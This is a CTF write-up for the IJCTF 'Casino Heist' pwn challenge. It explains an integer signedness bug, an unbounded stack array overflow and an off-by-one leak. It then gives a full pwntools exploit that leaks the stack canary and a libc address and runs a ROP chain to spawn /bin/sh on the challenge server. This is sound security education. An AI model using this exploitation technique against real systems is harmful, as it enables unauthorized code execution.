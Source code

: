 IJCTF Pwn Challenge by Shiro (Pycatchown sometimes)
# Casino Heist Writeup

## Part 1 - Reverse engineering

The code is terrible (of course, it's a challenge).
Sometimes ints are used, sometime it's int64, sometimes it's signed, sometimes it's not, well, we quickly identify at least one of the vulnerabilities without even really digging into the code.

We have a wallet, this wallet starts at 20 dollars, we can bet at least 5 dollars and no more than our wallet. If we fall at 0, the program exits itself, we can jackpot, and we can double the bet sometimes by adding a "m" at the end of our number.
Each bets are append into a array of uint64, which is located into the stack. It's of size 10, and isn't bounded by anything, which means that if we can make more than 10 bets without go bankrupt, we can overflow this array.

I didn't noticed the last bug instantly because I didn't realized the binary was compiled with stack smashing protection, but there is also an off by one in the print_bets function, which prints one element too far.
```c
for ( i = 0; ; ++i )
  {
    result = (unsigned int)idx_jour;
    if ( i > idx_jour )
      break;
    printf("Bet #%d: Value %ld\n", (unsigned int)i, a1[i]);
  }
```
Here we can see the condition is to break when i is strictly superior to idx_jour (the index used on the array we can overflow), since an array starts at 0, we can print one element too far.

## Part 2 - Exploitation

We're on a CTF so at this point I go straight away and fuzz a little, expecting the binary to bug out with negative or big values (thanks to the fact that the types are not coherent with each functions), so I did a little script that plays the binary over and over again until I win twice a bet with the maximum of my wallet, I tried to bet again with a value doubled, and I ended up with a negative wallet.

Since not everything is signed, that meant that my negative value was considered a very big number since the wallet on itself is stored within a uint64, which means that I could basically bet any values I wanted (well, almost). That also meant that I was not limited by luck anymore in order to apply as many bets as I wanted since my wallet was practically infinite.

So I tried to overflow the array of int64, and succeeded overflowing the binary until the saved rip.
However, the binary is compiled with stack protection flag, which means if we want to exploit, we'll have to either find a way not to overwrite the canary, or find a way to leak it.

Here comes the off by one on the print_bets function, which allows us to get the value we're about to overwrite before overwritng it.

At this point it's won, since we have a leak we don't bother leaking anything thanks to the rop itself, we just leak the canary, the original value of the saved rsp (since we smash the main) so we can have a libc leak, and go straight for `execv("/bin/sh", NULL)`.

## 3 - Exploit code

```python
#!/usr/bin/env python
from pwn import *

exe = context.binary = ELF('boiler')
context.terminal = "gnome-terminal --geometry=110x60 -- bash -c".split(" ")


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REM:
        return remote("34.126.147.93", 2200)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled


def exploit():
    offset_til_saved_rsp = 117

    for i in range(offset_til_saved_rsp-3):
        x = io.sendlineafter(b"Enter bet value: ", "5", timeout=5)
        print(x)
        if x == b"":
            io.interactive()

    ## Leaking canary/libc adress and overflowing
    io.sendlineafter(b"Enter bet value: ", b"v")
    io.recvuntil("Bet #117: Value ")
    canary = int(io.recvline())
    print(hex(canary))
    io.sendlineafter(b"Enter bet value: ", str(canary))
    io.sendlineafter(b"Enter bet value: ", "5")
    print("a") # Don't mind, it's just a trick to make the remote IO working
    io.sendlineafter(b"Enter bet value: ", b"v")
    io.recvuntil("Bet #119: Value ")
    libcleak = int(io.recvline())
    print(hex(libcleak))
    libc = ELF("./libc-2.31.so")
    libc.address = libcleak- 0x270b3
    ##

    ##Because I'm lazy (Rop writing into the stack)
    rop = ROP(libc)
    rop.execv(next(libc.search(b"/bin/sh\x00")), 0)
    x = rop.chain()
    payload = [x[i:i+8] for i in range(0, len(x), 8)]
    for gadget in payload:
        gadget = u64(gadget)
        io.sendlineafter(b"Enter bet value: ", str(gadget))
    ##
    io.sendline("x") # exit main loop
    io.interactive()


while 1:
    io = start()

    io.sendlineafter(b"name:\n", b"a")
    io.sendlineafter(b"value: ", b"20")
    res = io.recvline()
    if b"lose" in res:
        io.close()
        continue
    else:
        io.sendlineafter(b"value: ", b"40")
        res = io.recvline()
        print(res)
        if b"lose" in res:
            io.close()
            continue
        else:
            #context.log_level = "DEBUG"
            io.sendlineafter(b"value: ", b"80m")
            #gdb.attach(io, gdbscript="b *(unsigned long long*)(&main+1322)")
            exploit()
            io.interactive()
            io.close()
            exit(0)
```

Thanks to the author if this challenge, we don't see a lots of type mis-management challenges and more generally, I enjoy challenges wich doesn't only rely in one vulnerability.